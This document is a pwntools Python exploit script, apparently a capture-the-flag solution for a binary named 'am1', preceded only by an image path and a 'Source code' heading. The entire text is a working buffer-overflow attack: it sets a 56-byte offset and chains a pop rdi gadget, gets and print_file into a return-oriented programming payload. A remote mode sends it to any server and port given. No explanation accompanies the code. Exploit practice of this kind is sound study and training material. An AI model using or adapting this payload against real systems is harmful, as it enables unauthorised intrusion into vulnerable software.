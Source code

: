```python
#!/usr/bin/python3
from pwn import *
import warnings

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './am1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 56 
pop_rdi = 0x000000000040128b # pop rdi; ret; 
data = 0x00404048 # .data section

# Build the payload
payload = flat({
    offset: [  
        pop_rdi,
        data,
        elf.plt['gets'],
        pop_rdi,
        data,
        elf.symbols['print_file']
    ]
})

io.sendline(payload)

io.interactive()
```
